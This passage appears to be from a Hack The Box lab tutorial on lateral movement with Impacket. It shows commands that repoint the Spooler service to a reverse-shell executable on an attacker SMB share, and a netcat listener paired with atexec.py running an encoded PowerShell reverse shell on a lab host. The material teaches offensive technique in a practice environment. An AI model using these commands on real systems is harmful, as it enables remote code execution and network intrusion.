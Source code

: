 Next we will modify the binary path to our payload and set the `START_TYPE` to `AUTO START` with the option `-start_type 2`:

```shell-session
BusySec@htb[/htb]$ proxychains4 -q impacket-services INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 change -name Spooler -path "\\\\10.10.14.207\\share\\rshell-9001.exe" -start_type 2
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Changing service config for Spooler
```

Finally, we can start the service and wait for our command execution:

```shell-session
BusySec@htb[/htb]$ proxychains4 -q impacket-services INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 start -name Spooler
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Starting service Spooler
```

The advantage of this is that if a service is configured with a specific user account, we can take advantage of that account and impersonate it.

### atexec.py

The [atexec.py](https://github.com/fortra/impacket/blob/master/examples/atexec.py) script utilizes the Windows Task Scheduler service, which is accessible through the `atsvc` SMB pipe. It enables us to remotely append a task to the scheduler, which will execute at the designated time.

With this tool, the command output is sent to a file, which is subsequently accessed via the `ADMIN$` share. For this utility to be effective, it's essential to synchronize the clocks on both the attacking and target PCs down to the exact minute.

We can leverage this tool by inserting a reverse shell on the target host.

Let's start a `Netcat` listener:

```shell-session
BusySec@htb[/htb]$ nc -lnvp 8080
Listening on 0.0.0.0 8080
```

Now let's pass the domain name, administrator user, password, and target IP address `<domain>/<user>:<password>@<ip>`, and lastly, we can pass our reverse shell payload to get executed. We can generate the reverse shell payload using [revshells.com](https://www.revshells.com/).

```shell-session
BusySec@htb[/htb]$ proxychains4 -q atexec.py INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 "powershell -e ...SNIP...AbwBzAGUAKAApAA=="
Impacket v0.11.0 - Copyright 2023 Fortra

[!] This will work ONLY on Windows >= Vista
[*] Creating task \tEQBXeQm
[*] Running task \tEQBXeQm
[*] Deleting task \tEQBXeQm
[*] Attempting to read ADMIN$\Temp\tEQBXeQm.tmp
```
